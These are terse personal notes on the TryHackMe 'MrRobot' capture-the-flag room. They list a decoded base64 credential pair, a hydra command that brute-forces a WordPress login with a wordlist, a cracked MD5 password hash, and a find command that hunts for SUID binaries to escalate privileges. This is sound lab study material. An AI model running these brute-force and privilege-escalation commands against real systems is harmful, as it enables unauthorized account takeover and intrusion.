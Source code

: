 # MrRobot
https://tryhackme.com/room/mrrobot

`export IP=10.10.26.130`

`join`, temp e-mail: dlisa05@cmusicsxil.com

license: what you do just pull code from Rapid9 or some s@#% since when did you become a script kitty?
ZWxsaW90OkVSMjgtMDY1Mgo= > elliot:ER28-0652

User: Elliot
Pass: `hydra -l Elliot -P ./fsocity.dic $IP http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:The password you entered for the username" -t 30`

user robot
password md5: c3fcd3d76192e4007dfb496cca67e13b > abcdefghijklmnopqrstuvwxyz

Find SUID files
`find / -perm +6000 2>/dev/null | grep '/bin/'`
